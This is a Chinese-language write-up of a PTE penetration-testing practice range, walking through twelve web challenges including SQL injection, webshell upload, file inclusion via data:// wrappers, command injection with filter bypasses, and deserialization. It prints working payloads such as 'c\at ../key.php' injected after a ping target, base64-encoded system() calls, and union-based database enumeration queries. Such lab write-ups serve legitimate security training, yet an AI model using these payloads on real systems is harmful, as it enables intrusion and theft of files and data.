# PTE靶机练习

## 基础题目一：二阶SQL注入


点击开始答题，会出现用户名登陆界面，已经跟我们说了需要爆破的用户名了，我首先想到了用万能密码，但是登录失败，用题目提示我们的二次SQL注入登录

注册一个test用户




发现因为不是admin用户，因此无法查看KEY



发现有一个重置密码的，有大佬猜测到重置密码处的sql语句可能是

`update user set password="newpwd" where username="username" `

因此可以利用这里进行注入，注册一个用户名为admin'#的账户，则sql语句变为：

``update user set password="newpwd" where username='admin'#'`

此时修改admin'#的密码其实相当于修改admin的密码



成功拿到了key1


## 基础题目二：文件上传突破



第二道题是一道文件上传题，就是要通过上传木马文件，使用蚁剑连接，通过蚁剑拿到key

因为无法看到源代码，所以不知道什么文件被过滤掉了，但是经过我的尝试，起码php(不区分大小写)、php1、htaccess被过滤了，windows特性也不能用。

感觉问题不在后缀，搜了一下发现可能是过滤掉了一句话木马中的eval函数。。。。

图片马+利用大写绕过(是对eval大小写哦！！！)





修改之后放包，发现上传成功，跳转到图片url



尝试用蚁剑连接



蚁剑连接成功，拿到了key2!!!


## 基础题目三：文件包含


一道文件包含题，点击开始答题后习惯性地查看源码，没有任何提示

但是可以发现url中的参数是用file接收的



查看view.html看看有啥发现

跳转到了下面的这个页面


观察源码发现：



代码审计：

​	对W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10=进行base64解码后的内容为[@eval(base64_decode($_POST[z0]));]

- 从 `$_POST` 超全局数组中获取数据（假设数据是 base64 编码的），然后将其解码。
- 查找解码结果中 `[` 和 `]` 之间的内容，并用该内容替换整个匹配字符串。
- 由于使用了 `e` 修饰符，替换的内容会被当作 PHP 代码执行。

也就是说这段代码会查找到@eval(base64_decode($_POST[z0]));替换整个匹配字符串的内容，且会被当成PHP代码执行

从代码中可以看出这道题有两个参数，z0是关键参数，因此可以利用z0注入，爆破出key

> 构造payload：Hello=123&z0=system('cat ../key.php');
>
> 注：需要把system('cat ../key.php');经过base64编码为c3lzdGVtKCdjYXQgLi4va2V5LnBocCcpOw==
>
> 故，构造真正的payload：Hello=123&z0=c3lzdGVtKCdjYXQgLi4va2V5LnBocCcpOw==



查看网页源代码，发现key3




## 基础题目四：日志分析

日志分析题

日志分析的目的是通过对日志的分析有效的监控用户网络行为，跟踪网络资源的使用情况，识别异常流量和性能的瓶颈，让我们更好的去规划部署系统的资源，响应故障告警。从而达到一个稳定、安全、高校的系统运营环境。

先下载日志，这里使用NotePad++进行日志分析


可以看到有特别多条日志，不可能一条一条找，所以要进行筛选

（先标记下来需要的，再删除未标记的）


筛选出返回码为200的，即成功的日志

成功筛选到了2000多条，但还是大海捞针


根据经验，攻击者会选择admin或者manage进行攻击，因此筛选出这俩

筛到只剩50多条了，可以开始观察了


锁定backdoor.php这条


回到网页中查看

成功得到了key4！！！



## 基础题目五：命令执行

一道命令执行的题目，也是ping一个ip地址


同样，还是先ping 127.0.0.1，同时注入ls命令，查看当前目录下的所有文件，但是并没有看到key.php



通过cd ../;ls命令注入，发现key.php在上一级的目录，其实不知道有啥用，可能看到key.php就是比较安心


输入cat命令想要查看的时候，发现有敏感字符，我估计是cat被过滤了


上网搜索cat绕过，说可以用more|less|tail绕过，但是再三验证应该就是cat被过滤了

再试看看使用`反斜杠`

> 构造payload：127.0.0.1|c\at ../key.php

显示good luck!!!



查看一下源代码！

芜湖！！找到了！！！

自己做出来的兴奋感真的比看答案来得高得多！！！！


## 基础题目六：代码审计

第一次碰到代码审计类型的题目


点击开始答题之后，题目给了一段代码


通过执行shell命令来修改highlight_file输出的内容，得到KEY.  
操作步骤，执行cmd命令把key的内容结果直接输出到自己创建的网页，然后访问自己创建的网页，
绕过highlight_file那一步。

> 构造playload：?cmd=ls>111.html
>


## 基础题目七：命令执行二

看起来跟第五题差不多，但是过滤了很多东西


尝试&，发现不会被过滤


&cat被过滤，即cat被过滤，用反斜杠绕过


绕过cat之后，发现又绕过了php(因为单独填key的时候并不会报错)


> 新姿势：使用通配符绕过
>
> *通配符*是一种特殊语句，主要有星号(*)和问号(?)，用来模糊搜索文件。当查找文件夹时，可以使用它来代替一个或多个真正字符；当不知道真正字符或者懒得输入完整名字时，常常使用*通配符*代替一个或多个真正的字符。

成功绕过


查看源代码注释，成功得到key5


## 基础题目八：SQL注入

这道题也是我从未见过的题目。。。根本猜不到sql注入的源码

先随便注册一个账号登录，可以猜到是在文章发表的页面进行注入，经过不断测试，发现单引号好像被过滤掉了，老实说我根本想不到


> 构造payload：database',(select database()),'test2' ) #
>


> 构造payload：table',(select group_concat(table_name) from information_schema.tables where table_schema='2web'),'test222') #-#--
>

## 基础题目九：失效的访问控制

只允许本地访问

表示当前访问的用户不是本地用户

这道题利用篡改信息来绕过


抓包之后的内容如下：

isAdmin为false且username经过了URL编码


R3Vlc3Q%3D经过URL decode 和 base64 decode之后，得到的是guest


我们将guest修改为admin，再进行base64 encode 和 URL encode


还是显示只允许本地访问


再伪造一个本地的IP地址

成功拿到Key


## 基础题目十：SQL注入

SQL注入的题目见过很多了

题目很好心地给了我们一串源码

很明显注释符被过滤掉了


采用如下闭合，没有报错，那么开始尝试联合注入


输入到字段6的时候，出现了回显2，说明2的位置应该就是回显位


可以开始爆破了！

爆库名


爆表名


爆字段名


爆内容

成功得到key1


## 基础题目十一：文件包含(data伪协议)

先采用了php伪协议发现php伪协议不太管用，可能被过滤了


看一下data伪协议是否能够正常使用

data也被过滤了


使用双写＋大小写绕过

成功回显当前目录下的文件


在上一级的目录下查看到了key.php


> 构造Payload：page=dadata://ta://text/plain,<?php @eval(system('cat ../key.php'))?>
>


查看源代码，成功拿到key


## 基础题目十二：反序列化


这道题真的蛮简单的，源码都直接说了解题方法，只需要让输入的str参数的反序列化===temp这个变量的内容就行

所以要得到temp的序列化

```
<?php
	$a = serialze("Whatever is worth doing is worth doing well.");
	echo $a;
?>
// s:44:"Whatever is worth doing is worth doing well."
```


得到之后作为str参数输入即可

> 构造Payload：index.php?str=s:44:"Whatever is worth doing is worth doing well.";


